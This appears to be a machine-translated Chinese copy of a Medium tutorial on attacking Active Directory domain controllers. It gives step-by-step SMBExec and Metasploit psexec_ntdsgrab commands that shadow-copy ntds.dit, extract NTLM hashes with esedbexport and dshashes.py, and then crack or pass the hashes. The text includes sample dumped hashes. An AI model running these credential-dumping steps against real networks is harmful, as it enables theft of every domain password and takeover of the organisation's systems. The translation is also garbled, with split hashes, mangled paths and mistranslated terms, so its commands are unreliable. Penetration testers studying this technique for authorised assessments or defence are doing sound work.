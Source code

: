 # 如何攻击域控制器🤔😮😮

> 原文：<https://medium.com/codex/how-to-attacking-the-domain-controller-317e61ee6829?source=collection_archive---------17----------------------->

![](img/94b4e37fd57b50f1cc07f1bfd026170a.png)

马克西姆·霍普曼在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

如果你有幸获得了一个本地管理帐户或域管理帐户，下一个目标通常是域控制器(DC)。对任何一个圣灵降临节的人来说，最快乐的时刻之一就是他们成功地将所有的哈希从 DC 中取出来。

即使有管理凭证，我们也无权读取存储在 c:\Windows\NTDS\ntds.dit 文件中的域控制器上的哈希。这是因为当 Active Directory 不断访问该文件时，该文件被读锁定。这个问题的解决方案是使用 Windows 中的卷影复制功能来创建该文件的副本。

## **SMBExec**

这就是 SMBExec 工具发挥作用的地方。brav0hax 制作的工具 SMBExec 利用卷影复制功能抓取 SYS reg 键和 ntds.dit 文件。让我们来看看我们在设置您的设备一节中安装的 SMBExec 模块。

> ●运行 SMBExec

> ○ cd /opt/smbexec
> 
> ○ ./smbexec

> ●为获取散列选择 3
> 
> ●为域控制器选择 2
> 
> ●提供用户名/哈希/域/IP/NTDS 驱动器/NTDS 路径

![](img/3b555aad85ec5a37763ca28569222728.png)

我们刚刚看到 SMBExec 使用有效的凭据、经过验证的路径连接到域控制器，并尝试创建 ntds.dit 和 sys 文件的卷影副本。完成后，SMBExec 试图解析这些文件，并收集和存储来自 LDAP 的所有密码散列。

一旦 SMBExec 完成并成功，它将根据日期时间标记在同一目录中创建一个文件夹。如果你进入这个文件夹，你会看到一个名为[domain]-dc-hashes.lst 的文件。

![](img/dd15c26ebd8be488d14e8508e0918b31.png)

在示例受损的域控制器中，我能够找到以下用户的 NTLM 哈希:

> 管理员:500:aad3b 435 b 51404 eeaad 3 b 435 b 51404 ee:8 B9 e 471 f 83d 355 EDA 6 BF 63524 b 044870:::客人:501:aad3b 435 b 51404 eeaad 3 b 435 b 51404 ee:31 D6 cf E0 d 16 a e 931 b 73 c 59d 7 E0 c 089 c 0:::admin _ account:1000:aad 3 B4

请记住，如果您正在查询一个大型域控制器，去喝杯咖啡，因为这将需要相当长的时间。在您收集了所有这些散列之后，您可以开始密码破解或者利用散列的传递来继续利用盒子。

## **PSExec_NTDSgrab**

另一种转储散列的好方法是使用名为 psexec_ntdsgrab 的 metasploit 模块。与 SMBExec 类似，PSExec_NTDSGrab“对 Active Directory 域控制器进行身份验证，并创建%SYSTEMDRIVE%的卷影副本。然后，它下载 ntds.dit 文件以及系统配置单元的副本并存储它们。ntds.dit 和系统配置单元副本可以与其他工具结合使用，用于离线提取 AD 密码哈希。所有这些都是在不向目标主机上传任何二进制文件的情况下完成的。”

**使用本地/域管理员凭证，让我们获取域散列:**

> ● msfconsole
> 
> ●使用辅助/管理/smb/psexec_ntdsgrab
> 
> ●确保设置 RHOST、SMBDomain、SMBPass 和 SMBUser 的字段
> 
> ●利用

![](img/80ca58e77481e47989a1a5ee5df1796d.png)

如果成功抓取了 NTDS.dit 文件，Metasploit 会将该文件放到/root/.ms4/loot/文件夹中。接下来，我们需要用 esedbtool 和 NTDSextract 将 dit 文件转换成哈希表。

## **esedbexport 命令:**

> ●如何运行:esedbexport-t[导出位置] [NTDS.dit 文件]
> 
> ●/opt/esedbtools/esedbexport-t/tmp/NTDs/root/. ms F4/loot/2015 02 14180250 _ default _ 172 . 16 . 151 . 200 _ psexec . NTDs grab . _ 641158。

![](img/740540e6a83fcd185d04438d3cc586b6.png)

我们需要运行 dshashes.py 来将我们的表转换成密码散列。

> 如何运行:
> 
> ●ds hashes . py[datatable table][link _ table]—password hashes[来自 ntdsgrab 的原始 bin 文件]
> 
> ●python/opt/NTDSXtract/dshashes . py/tmp/NTDs . export/datatable . 4/tmp/NTDs . export/link _ table . 7/tmp/—password hashes/root/. ms F4/loot/2015 02 14180253 _ default _ 172 . 16 . 151 . 200 _ psexec . ntdsgrab . _ 127578。

![](img/df2b762c7663635ed23eed9139ff43ca.png)

这只是转储域散列的另一种方式。在各种测试中，我遇到过 SMBExec 或 psexec_ntdsgrab 由于某种奇怪的原因而无法工作的情况。换句话说，有时候一个工具工作，而另一个工具不工作。因此，确保你的后兜里有这两种工具。